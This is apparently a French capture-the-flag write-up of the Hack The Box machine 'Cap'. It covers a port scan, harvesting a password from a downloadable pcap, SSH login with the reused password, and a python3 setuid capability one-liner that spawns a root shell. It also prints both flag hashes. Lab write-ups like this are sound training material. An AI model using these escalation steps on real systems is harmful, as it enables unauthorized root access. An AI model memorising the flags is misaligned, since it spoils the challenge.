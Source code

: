 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
date: 2023-03-28T00:00:00+00:00
tags: ["HTB", "Easy", "writeup", 'FR']
type: post
image: /images/cap/cap.png
showTableOfContents: true
---
```

![HTB Cap Image](/images/cap/cap.png "HTB Cap Image")
# nmap
On va tout d’abord scanner les ports ouverts de l’ip:
```┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```
# http
Sur le site, on remarque qu'on est connecté de base à l'utilisateur "Nathan".
On trouve ensuite que le site permet de télécharger des trames réseaux:
http://10.10.10.245/data/0

On download le pcap numero 0 et on l'analyse ensuite avec Wireshark:
![pcap](/images/cap/pcap.png "pcap")

On trouve alors le mot de passe de Nathan (utilisé pour le ftp)

# ssh
Le mot de passe ftp de Nathan et le même que sur son ssh:
```
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```
On récupère alors le flag de l'user:
```
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd6713a9539c2c987b214d1a48bc21c
```
# privesc
On cherche si on a des vulnérabilités liées aux capabilities:
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
On voit tout de suite ici que python3.8 est sûrement vulnérable à un exploit de type setuid. 
On peut trouver les exploits de capabilities sur [gfobins](https://gtfobins.github.io/gtfobins/python/#capabilities):
```
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```
On est bien root !
Il ne reste plus qu'a récupérer le dernier flag:
```
# cat /root/root.txt
0987dc49d725b0d0f38fe7f6349b266c
```